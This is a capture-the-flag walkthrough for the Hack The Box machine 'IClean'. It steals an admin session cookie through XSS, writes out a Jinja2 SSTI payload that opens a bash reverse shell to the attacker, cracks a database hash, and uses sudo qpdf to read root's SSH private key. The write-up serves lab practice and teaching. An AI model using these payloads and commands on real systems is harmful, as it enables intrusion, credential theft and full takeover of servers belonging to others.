# IClean

IClean is a medium machine on HTB.

## Enumeration

First we check the open port via **nmap**.




The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.12   capiclean.htb" | sudo tee -a /etc/hosts
```



This is what you should see after browsing to the domain. It seems like a basic website. Let's perform some **directory research**.



Plenty of things here. There is a **login** page but we don't have any creditentials. A **dashboard** page which we can access if you are login. So we must find something so we can login and access the **dashboard** page. The **quote** page seem interesting.


And if we enter valid input into the form and we submit it, we have this message of confirmation :



It is explicitly said that the management team will see our message. So we can try if it's vulnerable to **XSS**. For that intercept the request of the quote form.



Let's try it on the `service` variable. And we will use this payload (it's already URL encoded, juste change the IP and the port) : ``. And don't forget to launch your python server :
```bash
python3 -m http.server YOUR_PORT
```



And after some time you should receive the cookie ! Now we can go to the storage tab when you inspect the website and add a new cookie named `session` and with the value you just got.



## Foothold

Now we can access the dashboard page !


We can see that we can generate invoice. Let's fill the form with valid input and submit it. 



It give us a code. Let's keep it for now. The next things we can do is to generate a qr code.


And for that we need an invoice id! Great we have one! So let's paste the one we just got.



It give us a link and if we put the link in the form and submit it, this page is displayed to us :



Great now let's intercept the request with burpsuite.



Now let's send this to the Repeater of burpsuite so we can do some test.



So the server is powered by Python so it's surely Flask and Flask use Jinja2. Which open the possibility of a SSTI vulnerability. You can see [this](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/?source=post_page-----cfc46f351353--------------------------------) blog for complete explanation. And so we will use this payload to get a reverse shell (it's already URL encoded, just change YOUR_IP and YOUR_PORT) `{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash+-c+'exec+bash+-i+%26>/dev/tcp/YOUR_IP/YOUR_PORT+<%261'")|attr("read")()}}`. and put this in the `qr_link` variable in burpsuite. Don't forget to setup a netcat listener to.

## User flag



And we have a revshell ! As the user `www-data`. First stabilize the shell :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
#CTRL + Z
stty raw -echo; fg
```


If we cat the `app.py` file in our directory we obtain a password for a database !



`iclean:pxCsmnGLckUb`, and so we can access the database with this command :

```bash
mysql -h localhost -u iclean -D capiclean -p
```
Inside the database we can find two hashes in the users tables !



So we can try to crack the hashes with `hashcat`. Paste the hash of the user `consuela` in a file and use this command :

```bash
hashcat -a 0 -m 1400 hash /usr/share/wordlists/rockyou.txt
```

Wait a little and hashcat as found the password : `simple and clean`. So we can try to login as consuela with this password.



## Root flag

If we type `sudo -l` we can see that we can use the command `/usr/bin/qpdf` as sudo. There is a vulnerability in `qpdf` that is we can attach file and display them after with the pdf we created. So we can attach the private key of root and login as root via ssh. First create a padf on your local machine.

```bash
convert -size 100x100 xc:white -annotate 0 'test' test.pdf
```

Launch a python server where the pdf is located and use this command on the remote machine to download the pdf file.

```bash
wget http://YOUR_IP:YOUR_PORT/test.pdf
```
After that use this command on the remote machine to attach the private key :

```bash
sudo /usr/bin/qpdf test.pdf --add-attachment /root/.ssh/id_rsa -- root_key.pdf
```

And this one to display the key : 

```bash
qpdf root_key.pdf --show-attachment=id_rsa
```



Copy paste it in a file on your local machine, give it the good right with `chmod 600` and login as root via shh.

